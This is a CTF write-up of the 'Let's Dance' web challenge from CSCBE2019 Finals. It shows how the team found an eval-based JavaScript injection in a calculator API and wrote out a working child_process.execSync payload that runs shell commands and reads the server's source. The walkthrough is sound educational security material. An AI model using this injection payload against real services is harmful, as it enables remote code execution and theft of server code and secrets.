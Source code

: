 # Let's Dance - Web (180 pts)

### [~$ cd ..](../)

Author: [renaud11232](https://renaud11232.github.io/ctf/CSCBE2019/Finals/lets_dance/)
>One of my friends created an online calculator yesterday! However he had some issues
with his API endpoint.. Could you take a look at this example request?
For this challenge, we were asked to find and exploit a vulnerability in a simple web API.

The API had only one route accepting only `POST` requests. The requests body were meant to be simple equations that were going to be solved. The requests and responses were `json` formatted.

The requests body looked like this:

```json
{
  "equation": "1+1"
}
```
And the responses:
```json
{
  "result": 2
}
```

We first tried some very crude buffer overflows and stack overflows by sending massive requests and equations with a lot of parenthesis. None of that worked.

Then we thought the backend may use a function like `eval(expr)` to compute the result, so we gave it a try. Sending :
```json
{
  "equation": "eval(1)"
}
```
gave us the following response :
```json
{
  "result": 1
}
```

Here we had found the vulnerability but not yet the language used, so we just sent another request :
```json
{
  "equation": "eval(1);"
}
```
This also gave us a successful response :
```json
{
  "result": 1
}
```
From here we thought about either a `php` or `js` server.
We placed our bet on `js` and tried the following request :
```json
{
  "equation": "var dummy = 1;"
}
```
This also gave us a successful response :
```json
{
  "result": 1
}
```
From here we started building a payload allowing us to execute commands on the server :

```json
{
    "equation": "const exec = require('child_process').execSync;var out = Buffer.from(exec('ls')).toString('hex');out;"

}
```

Which gave us `index.js` in hexadecimal. Then we made a last request :

```json
{
    "equation": "const exec = require('child_process').execSync;var out = Buffer.from(exec('cat index.js')).toString('hex');out;"
}
```

This gave us all the code of the server which contained the flag.

DONE
